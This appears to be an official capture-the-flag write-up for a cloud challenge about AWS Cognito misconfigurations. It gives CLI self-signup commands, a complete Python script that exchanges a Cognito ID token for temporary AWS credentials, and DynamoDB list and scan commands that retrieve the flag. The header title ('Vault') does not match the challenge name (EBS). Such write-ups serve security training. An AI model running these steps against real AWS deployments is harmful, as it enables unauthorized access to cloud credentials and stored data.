


<font size="5">Vault</font>

  4<sup>th</sup> 4 2025

  Prepared By: busfactor

  Challenge Author: busfactor

  Difficulty: <font color=orange>Medium</font>

  Classification: Official

# Synopsis

EBS is a medium-difficulty cloud challenge that focuses on AWS Cognito misconfigurations. Observation of the Cognito authentication flow reveals that user self-registration is enabled by default. Successful registration grants access to an Emergency Broadcast System. While the application itself does not present immediate vulnerabilities, further investigation into the permissions of the authenticated Cognito user's IAM role reveals it to be over-privileged. This over-privileged role allows for the acquisition of temporary AWS credentials. These credentials can then be used to list and scan DynamoDB tables, ultimately revealing the flag within one of them.

# Description

The Volnaya's Emergency Broadcast System (EBS) is critical for disseminating urgent information. The public-facing portal has been identified, but access is restricted. The objective is to gain access to the system, explore its backend services, and retrieve any sensitive data that might be stored, which could provide insight into its operational capabilities.

URL: `[CHALLENGE_CLOUDFRONT_URL]`

## Skills Required

  * Understanding of AWS Cognito
  * Familiarity with AWS CLI
  * Knowledge of IAM Roles and Permissions
  * Basic web application enumeration (intercepting requests)
  * Experience with DynamoDB

## Skills Learned

  * Exploiting default Cognito self-signup
  * Exchanging Cognito tokens for AWS credentials
  * Identifying and leveraging over-privileged IAM roles
  * Accessing DynamoDB for sensitive information

# Challenge/Solution

The challenge begins with a provided URL to a CloudFront distribution: `[CHALLENGE_CLOUDFRONT_URL]`.

Navigating to this URL presents a sign-in page.



Clicking the "Sign In" button redirects to an AWS Cognito hosted UI page. The URL of this page will contain the `client_id` in its query parameters.

By default, AWS Cognito permits user self-registration unless this feature is explicitly disabled. Registration can be attempted using the AWS CLI. To proceed, the `client_id` (found in the Cognito URL's query parameters), User Pool ID, and AWS region are necessary. However, the web application issues requests to a `/config.json` endpoint. Inspecting the content of this file provides all the required details.

Contents of `/config.json`:

```json
{
  "broadcastsApiUrl": "[CHALLENGE_BROADCASTS_API_URL]",
  "cognito": {
    "awsRegion": "[CHALLENGE_AWS_REGION]",
    "identityPoolId": "[CHALLENGE_COGNITO_IDENTITY_POOL_ID]",
    "oauthDomain": "[CHALLENGE_COGNITO_OAUTH_DOMAIN]",
    "userPoolClientId": "[CHALLENGE_COGNITO_USER_POOL_CLIENT_ID]",
    "userPoolId": "[CHALLENGE_COGNITO_USER_POOL_ID]"
  }
}
````

From this, the following information is obtained:

  * Client ID: `[CHALLENGE_COGNITO_USER_POOL_CLIENT_ID]`
  * User Pool ID: `[CHALLENGE_COGNITO_USER_POOL_ID]`
  * Region: `[CHALLENGE_AWS_REGION]`
  * Identity Pool ID: `[CHALLENGE_COGNITO_IDENTITY_POOL_ID]`

A new user (e.g., `testuser@example.com` with the password `Password123!`) can then be registered using the following command:

```bash
aws cognito-idp sign-up \
    --region [CHALLENGE_AWS_REGION] \
    --client-id [CHALLENGE_COGNITO_USER_POOL_CLIENT_ID] \
    --username 'testuser@example.com' \
    --password 'Password123!'
```

Typically, a successful sign-up triggers Cognito to send a confirmation code to the provided email address. If no confirmation code is received, it indicates that either new users are automatically confirmed or that email verification is not enforced for this User Pool.

Upon successful sign-in, an Emergency Broadcast System dashboard is presented.



The dashboard appears to fetch data from a Lambda function via the API endpoint `[CHALLENGE_BROADCASTS_API_URL]`. While this endpoint allows unauthenticated calls, no immediate vulnerabilities are found there.

The subsequent step involves determining whether the IAM role associated with the authenticated Cognito user possesses excessive permissions. The Cognito ID token, which is obtained after a successful login and is stored in the browser's local storage (typically under a key like `CognitoIdentityServiceProvider.[CHALLENGE_COGNITO_USER_POOL_CLIENT_ID].[username].idToken`), can be exchanged for temporary AWS credentials.

The provided Python script is used for this.

```python
#!/usr/bin/env python3

import argparse
import subprocess
import json
import sys
import shlex


def run_aws_command(command_list):
    """Runs an AWS CLI command and returns the parsed JSON output."""
    try:
        # Using shlex.join for better visualization in error messages if needed
        print(
            f"Executing: aws {' '.join(shlex.quote(c) for c in command_list)}", file=sys.stderr)
        process = subprocess.run(['aws'] + command_list,
                                 capture_output=True,
                                 text=True,
                                 check=True,  # Raise CalledProcessError on non-zero exit
                                 encoding='utf-8')
        try:
            return json.loads(process.stdout)
        except json.JSONDecodeError as e:
            print(f"Error: Failed to decode JSON from AWS CLI output.",
                  file=sys.stderr)
            print(f"Output was:\n{process.stdout}", file=sys.stderr)
            raise e

    except subprocess.CalledProcessError as e:
        print(
            f"Error: AWS CLI command failed with exit code {e.returncode}", file=sys.stderr)
        print(
            f"Command: aws {' '.join(shlex.quote(c) for c in e.cmd)}", file=sys.stderr)
        print(f"Stderr:\n{e.stderr}", file=sys.stderr)
        print(f"Stdout:\n{e.stdout}", file=sys.stderr)
        raise e
    except FileNotFoundError:
        print("Error: 'aws' command not found. Is the AWS CLI installed and in your PATH?", file=sys.stderr)
        sys.exit(1)
    except Exception as e:
        print(f"An unexpected error occurred: {e}", file=sys.stderr)
        raise e


def main():
    parser = argparse.ArgumentParser(
        description="Exchange a Cognito ID Token for temporary AWS credentials.",
        formatter_class=argparse.ArgumentDefaultsHelpFormatter
    )
    parser.add_argument("--id-token", required=True,
                        help="Cognito User Pool ID Token")
    parser.add_argument("--identity-pool-id", required=True,
                        help="Cognito Identity Pool ID (e.g., eu-north-1:xxxx)")
    parser.add_argument("--user-pool-id", required=True,
                        help="Cognito User Pool ID (e.g., eu-north-1_yyyy)")
    parser.add_argument("--region", required=True,
                        help="AWS Region (e.g., eu-north-1)")

    args = parser.parse_args()

    # Construct the provider name required for the --logins parameter
    provider_name = f"cognito-idp.{args.region}.amazonaws.com/{args.user_pool_id}"
    logins_map_entry = f"{provider_name}={args.id_token}"

    # 1. Get the Cognito Identity ID
    print("Step 1: Getting Cognito Identity ID...", file=sys.stderr)
    get_id_command = [
        'cognito-identity', 'get-id',
        '--identity-pool-id', args.identity_pool_id,
        '--logins', logins_map_entry,
        '--region', args.region
    ]
    try:
        get_id_response = run_aws_command(get_id_command)
        identity_id = get_id_response.get('IdentityId')
        if not identity_id:
            print("Error: Could not find 'IdentityId' in get-id response.",
                  file=sys.stderr)
            print(f"Response: {get_id_response}", file=sys.stderr)
            sys.exit(1)
        print(
            f"Successfully obtained Identity ID: {identity_id}", file=sys.stderr)

    except Exception:
        # Error details printed by run_aws_command
        sys.exit(1)

    # 2. Get Temporary AWS Credentials
    print("\nStep 2: Getting temporary AWS credentials...", file=sys.stderr)
    get_creds_command = [
        'cognito-identity', 'get-credentials-for-identity',
        '--identity-id', identity_id,
        '--logins', logins_map_entry,
        '--region', args.region
    ]
    try:
        get_creds_response = run_aws_command(get_creds_command)
        credentials = get_creds_response.get('Credentials')
        if not credentials or 'AccessKeyId' not in credentials or 'SecretKey' not in credentials or 'SessionToken' not in credentials:
            print("Error: Could not find 'Credentials' (or required keys) in get-credentials-for-identity response.", file=sys.stderr)
            print(f"Response: {get_creds_response}", file=sys.stderr)
            sys.exit(1)

        # expiration = credentials.get('Expiration', 'N/A')  # Unix timestamp
        print(f"Successfully obtained credentials.", file=sys.stderr)

        # 3. Output export commands
        print("\n# Run the following commands to set AWS environment variables:", file=sys.stderr)
        print(
            f"export AWS_ACCESS_KEY_ID='{shlex.quote(credentials['AccessKeyId'])}'")
        print(
            f"export AWS_SECRET_ACCESS_KEY='{shlex.quote(credentials['SecretKey'])}'")
        print(
            f"export AWS_SESSION_TOKEN='{shlex.quote(credentials['SessionToken'])}'")
        print(f"export AWS_REGION='{shlex.quote(args.region)}'")

    except Exception as e:
        # Error details printed by run_aws_command
        print(e)
        sys.exit(1)


if __name__ == "__main__":
    main()
```

First, the ID token must be obtained. Assume the ID token is `[EXAMPLE_ID_TOKEN]`.

```bash
python3 cognito_to_aws_creds.py \
    --id-token "[EXAMPLE_ID_TOKEN]" \
    --identity-pool-id "[CHALLENGE_COGNITO_IDENTITY_POOL_ID]" \
    --user-pool-id "[CHALLENGE_COGNITO_USER_POOL_ID]" \
    --region "[CHALLENGE_AWS_REGION]"
```

The script will output a series of `export` commands for AWS credentials:

```
# Run the following commands to set AWS environment variables:
export AWS_ACCESS_KEY_ID=[GENERATED_AWS_ACCESS_KEY_ID]
export AWS_SECRET_ACCESS_KEY=[GENERATED_AWS_SECRET_ACCESS_KEY]
export AWS_SESSION_TOKEN=[GENERATED_AWS_SESSION_TOKEN]
export AWS_REGION=[CHALLENGE_AWS_REGION]
```

Once these environment variables are exported, actions can be performed with the permissions granted to the Cognito user's IAM role. A common initial step is to enumerate accessible services or resources. Given the context of an "Emergency Broadcast System", DynamoDB is a likely candidate for storing data.

```bash
aws dynamodb list-tables --region [CHALLENGE_AWS_REGION]
```

The output might look like this:

```json
{
    "TableNames": [
        "[CHALLENGE_DYNAMODB_TABLE_NAME]"
    ]
}
```

A table, for instance named `[CHALLENGE_DYNAMODB_TABLE_NAME]`, is identified. Its contents can be retrieved by scanning the table:

```bash
aws dynamodb scan --table-name [CHALLENGE_DYNAMODB_TABLE_NAME] --region [CHALLENGE_AWS_REGION]
```

The output of the scan will reveal the items in the table. One of these items should contain the flag.

```json
{
    "Items": [
        ...
        {
            "priority": {
                "S": "1"
            },
            "region": {
                "S": "REDACTED"
            },
            "description": {
                "S": "REDACTED"
            },
            "id": {
                "S": "[EXAMPLE_DYNAMODB_ITEM_ID]"
            },
            "title": {
                "S": "flag"
            },
            "type": {
                "S": "REDACTED"
            }
        },
        ...
    ],
    "Count": 5,
    "ScannedCount": 5,
    "ConsumedCapacity": null
}
```

The flag is found within the `[CHALLENGE_DYNAMODB_TABLE_NAME]` table.
